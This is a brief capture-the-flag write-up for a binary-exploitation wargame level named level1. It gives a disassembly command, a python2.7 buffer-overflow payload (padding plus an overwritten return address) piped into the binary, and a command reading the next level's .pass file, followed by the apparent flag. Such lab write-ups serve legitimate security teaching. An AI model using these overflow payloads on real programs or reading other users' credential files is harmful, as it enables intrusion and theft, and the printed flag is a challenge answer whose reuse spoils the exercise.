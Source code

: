 # level1

## disassemble

```shell
# objdump --disassemble --demangle --disassembler-options intel bonus0
objdump -dC -M intel level1
```

## exploit

```shell
python2.7 -c 'print("B"*76 + "\x44\x84\x04\x08")' > /tmp/exploit.txt
cat /tmp/exploit.txt /dev/stdin | ./level1
```

## flag

```shell
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
